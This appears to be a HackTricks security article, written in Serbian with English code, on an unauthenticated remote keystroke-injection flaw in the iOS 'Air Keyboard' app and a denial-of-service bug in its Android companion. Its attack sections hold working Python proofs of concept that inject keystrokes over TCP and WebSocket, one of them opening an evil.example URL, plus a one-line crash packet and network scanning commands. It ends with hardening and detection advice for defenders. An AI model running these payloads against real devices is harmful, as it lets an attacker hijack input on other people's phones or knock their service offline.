 # Air Keyboard Remote Input Injection (Unauthenticated TCP / WebSocket Listener)

{{#include ../../banners/hacktricks-training.md}}

## TL;DR

iOS verzija komercijalne **“Air Keyboard”** aplikacije (App Store ID 6463187929) izlaže uslugu lokalne mreže koja **prihvata okvire pritisaka tastera bez ikakve autentifikacije ili provere porekla**. U zavisnosti od instalirane verzije, usluga je ili:

* **≤ 1.0.4**  – sirovi TCP slušalac na **portu 8888** koji očekuje 2-bajtni zaglavlje dužine praćeno *device-id* i ASCII payload-om.
* **≥ 1.0.5 (jun 2025)**  – **WebSocket** slušalac na *istom* portu (**8888**) koji analizira **JSON** ključeve kao što su `{"type":1,"text":"…"}`.

Svaki uređaj na istoj Wi-Fi / podmreži može **ubaciti proizvoljni unos sa tastature u telefon žrtve, postignuvši potpunu daljinsku interakciju**.
Prateća Android verzija sluša na **portu 55535**. Izvodi slabu AES-ECB razmenu, ali kreirani šum i dalje uzrokuje **neobrađenu izuzetak unutar OpenSSL**, rušeći pozadinsku uslugu (**DoS**).

> Ranljivost je **i dalje neispravljena u trenutku pisanja (jul 2025)** i aplikacija ostaje dostupna u App Store-u.

---

## 1. Otkriće usluge

Skenirajte lokalnu mrežu i potražite dva fiksna porta koja koriste aplikacije:
```bash
# iOS (unauthenticated input-injection)
nmap -p 8888 --open 192.168.1.0/24

# Android (weakly-authenticated service)
nmap -p 55535 --open 192.168.1.0/24
```
Na Android uređajima možete lokalno identifikovati odgovarajući paket:
```bash
adb shell netstat -tulpn | grep 55535      # no root required on emulator
# rooted device / Termux
netstat -tulpn | grep LISTEN
ls -l /proc/<PID>/cmdline                 # map PID → package name
```
Na **jailbroken iOS** možete uraditi nešto slično sa `lsof -i -nP | grep LISTEN | grep 8888`.

---

## 2. Detalji protokola (iOS)

### 2.1  Nasleđe (≤ 1.0.4) – prilagođeni binarni okviri
```
[length (2 bytes little-endian)]
[device_id (1 byte)]
[payload ASCII keystrokes]
```
Deklarisana *dužina* uključuje `device_id` bajt **ali ne** i dvobajtni zaglavlje.

### 2.2  Trenutna (≥ 1.0.5) – JSON preko WebSocket-a

Verzija 1.0.5 tiho je migrirala na WebSocket-e dok je port broj ostao nepromenjen. Minimalni pritisak tastera izgleda ovako:
```json
{
"type": 1,              // 1 = insert text, 2 = special key
"text": "open -a Calculator\n",
"mode": 0,
"shiftKey": false,
"selectionStart": 0,
"selectionEnd": 0
}
```
Nema potrebe za rukovanjem, tokenom ili potpisom – prvi JSON objekat već pokreće UI događaj.

---

## 3. Eksploatacija PoC

### 3.1  Ciljanje ≤ 1.0.4 (raw TCP)
```python
#!/usr/bin/env python3
"""Inject arbitrary keystrokes into Air Keyboard ≤ 1.0.4 (TCP mode)"""
import socket, sys

target_ip  = sys.argv[1]                 # e.g. 192.168.1.50
keystrokes = b"open -a Calculator\n"    # payload visible to the user

frame  = bytes([(len(keystrokes)+1) & 0xff, (len(keystrokes)+1) >> 8])
frame += b"\x01"                        # device_id = 1 (hard-coded)
frame += keystrokes

with socket.create_connection((target_ip, 8888)) as s:
s.sendall(frame)
print("[+] Injected", keystrokes)
```
### 3.2  Ciljanje ≥ 1.0.5 (WebSocket)
```python
#!/usr/bin/env python3
"""Inject keystrokes into Air Keyboard ≥ 1.0.5 (WebSocket mode)"""
import json, sys, websocket  # `pip install websocket-client`

target_ip = sys.argv[1]
ws        = websocket.create_connection(f"ws://{target_ip}:8888")
ws.send(json.dumps({
"type": 1,
"text": "https://evil.example\n",
"mode": 0,
"shiftKey": False,
"selectionStart": 0,
"selectionEnd": 0
}))
ws.close()
print("[+] URL opened on target browser")
```
*Svaki štampajući ASCII — uključujući prelome linija, tabove i većinu specijalnih tastera — može biti poslat, dajući napadaču istu moć kao fizički unos korisnika: pokretanje aplikacija, slanje IM-ova, otvaranje zlonamernih URL-ova, prebacivanje podešavanja, itd.*

---

## 4. Android Companion – Odbijanje usluge

Android port (55535) očekuje **4-znamenkastu lozinku enkriptovanu sa hard-kodiranim AES-128-ECB ključem** praćenom nasumičnim nonce-om. Greške u parsiranju se prenose do `AES_decrypt()` i nisu uhvaćene, što dovodi do prekida niti slušatelja. Jedan malformirani paket je stoga dovoljan da drži legitimne korisnike isključenim dok se proces ponovo ne pokrene.
```python
import socket
socket.create_connection((victim, 55535)).send(b"A"*32)  # minimal DoS
```
---

## 5. Povezane Aplikacije – Ponavljajući Anti-Obrazac

Air Keyboard **nije izolovan slučaj**. Druge mobilne “daljinske tastature/misevi” imaju istu manu:

* **Telepad ≤ 1.0.7** – CVE-2022-45477/78 omogućava neautentifikovanu izvršavanje komandi i logovanje tastera u običnom tekstu.
* **PC Keyboard ≤ 30** – CVE-2022-45479/80 neautentifikovana RCE & prisluškivanje saobraćaja.
* **Lazy Mouse ≤ 2.0.1** – CVE-2022-45481/82/83 podrazumevano-bez-lozinke, slaba PIN brute-force i curenje u običnom tekstu.

Ovi slučajevi ističu sistematsko zanemarivanje **napadačkih površina koje su okrenute ka mreži na mobilnim aplikacijama**.

---

## 6. Osnovni Uzroci

1. **Nema provere porekla / integriteta** na dolaznim okvirima (iOS).
2. **Kryptografska zloupotreba** (stat ključ, ECB, nedostatak provere dužine) i **nedostatak obrade izuzetaka** (Android).
3. **Korisnički odobrena Local-Network dozvola ≠ sigurnost** – iOS zahteva saglasnost u toku rada za LAN saobraćaj, ali to ne zamenjuje pravilnu autentifikaciju.

---

## 7. Ojačavanje & Odbrambene Mere

Preporuke za programere:

* Povežite slušalac na **`127.0.0.1`** i tunelujte preko **mTLS** ili **Noise XX** ako je potrebna daljinska kontrola.
* Izvedite **tajne po uređaju tokom onboardinga** (npr. QR kod ili PIN za uparivanje) i primenite *uzajamnu* autentifikaciju pre obrade unosa.
* Usvojite **Apple Network Framework** sa *NWListener* + TLS umesto sirovih soketa.
* Implementirajte **provere dužine** i strukturiranu obradu izuzetaka prilikom dekriptovanja ili dekodiranja okvira.

Brzi dobitci za Blue-/Red-Team:

* **Mrežno lovljenje:** `sudo nmap -n -p 8888,55535 --open 192.168.0.0/16` ili Wireshark filter `tcp.port == 8888`.
* **Inspekcija u toku rada:** Frida skripta koja hvata `socket()`/`NWConnection` da bi se prikazali neočekivani slušatelji.
* **iOS Izveštaj o Privatnosti Aplikacija (Podešavanja ▸ Privatnost & Bezbednost ▸ Izveštaj o Privatnosti Aplikacija)** ističe aplikacije koje kontaktiraju LAN adrese – korisno za uočavanje zlonamernih usluga.
* **Mobilni EDR-ovi** mogu dodati jednostavna Yara-L pravila za JSON ključeve `"selectionStart"`, `"selectionEnd"` unutar običnih TCP tereta na portu 8888.

---

## Detekcija Cheat-Sheet (Pentesteri)
```bash
# Locate vulnerable devices in a /24 and print IP + list of open risky ports
nmap -n -p 8888,55535 --open 192.168.1.0/24 -oG - \
| awk '/Ports/{print $2 "  " $4}'

# Inspect running sockets on a connected Android target
adb shell "for p in $(lsof -PiTCP -sTCP:LISTEN -n -t); do \
echo -n \"$p → \"; cat /proc/$p/cmdline; done"
```
---

## Reference

- [Exploit-DB 52333 – Air Keyboard iOS App 1.0.5 Remote Input Injection](https://www.exploit-db.com/exploits/52333)
- [Mobile-Hacker Blog (17 Jul 2025) – Remote Input Injection Vulnerability in Air Keyboard iOS App Still Unpatched](https://www.mobile-hacker.com/2025/07/17/remote-input-injection-vulnerability-in-air-keyboard-ios-app-still-unpatched/)

{{#include ../../banners/hacktricks-training.md}}

